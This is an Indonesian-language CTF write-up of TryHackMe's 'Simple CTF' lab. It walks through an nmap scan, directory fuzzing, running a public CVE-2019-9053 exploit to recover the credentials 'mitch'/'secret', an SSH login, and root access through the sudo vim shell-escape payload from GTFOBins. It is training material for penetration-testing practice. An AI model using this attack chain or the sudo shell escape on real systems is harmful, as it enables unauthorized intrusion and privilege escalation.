 ```yaml
---
title: "Tryhackme - Simple CTF WriteUps"
date: 2022-12-14 13:00:00 +07:00
categories: [WriteUps]
tags: [ctf, Tryhackme, pentest, writeups]
image: 
---
```


# Tryhackme - Simple CTF WriteUps

Pertama kali kita scanning Port yang terbuka dengan Nmap ```Nmap -sC -sV ‘Target’```. Setelah menscan kita dapat melihat Port terbuka yaitu port 21, 80, dan 2222.
```
$ nmap -sC -sV 10.10.98.22 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-13 22:54 PST
Nmap scan report for 10.10.98.22
Host is up (0.26s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.46.188
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.92 seconds
```
Disini kita mencoba melihat tampilan website pada port 80. Dan kita mendapatkan tampilan Apache2.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005431703031868/image.png)

Sekarang kita mencoba fuzzing directory dengan dirsearch dan kita mendapatkan: ```/index.html, /robots.txt, /simple```.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005736247230514/image.png)

Kita coba membuka halaman baru dan menambahkan directory ```/simple```. Setelah kita searching secara dalam kita menemukan Vulnerability CVE-2019-9053 dan exploitnya saya dapatkan dari [github](https://github.com/e-renna/CVE-2019-9053).

![image](https://media.discordapp.net/attachments/740245586095112242/1055006129509384222/image.png)

Disini kita mencoba menjalankan dan exploit dengan exploit yang kita dapatkan tadi. Dengan ini kita bisa melihat user, password, dan email yang di hash dengan md5. Dan kita mendapatkan 
```
Username: mitch
Password: secret
Email: admin@admin.com
```
![image](https://media.discordapp.net/attachments/740245586095112242/1055006770373853184/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055006940461281300/image.png)

Setelah kita mendapatkanya kita coba untuk login pada SSH port 2222 yang kita dapatkan dari scanning network dari Nmap tadi. Dan berhasil login, selanjutnya kita akan local privileges dengan cara melihat sudoers ```sudo -l``` untuk melihatnya dan kita dapat menjalankan ```/usr/bin/vim```

![image](https://media.discordapp.net/attachments/740245586095112242/1055007310969315409/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055007445166084197/image.png)

Disini kita mencoba exploit dengan payload yang didapat dari [GTFobins](https://gtfobins.github.io/gtfobins/vim/) yang payload ini: 
```
vim -c ':!/bin/sh' 
```
dapat dijalankan secara langsung dengan root untuk memanggil bash pada root.
![image](https://media.discordapp.net/attachments/740245586095112242/1055007970355859566/image.png)

Selanjutnya kita eksekusi dengan payload ini dan menambahkan sudo didepan payload ```sudo vim -c ‘:!/bin/sh’```. Dan berhasil kita telah mendapatkan root access pada server ini.

![image](https://media.discordapp.net/attachments/740245586095112242/1055008241555357736/image.png)
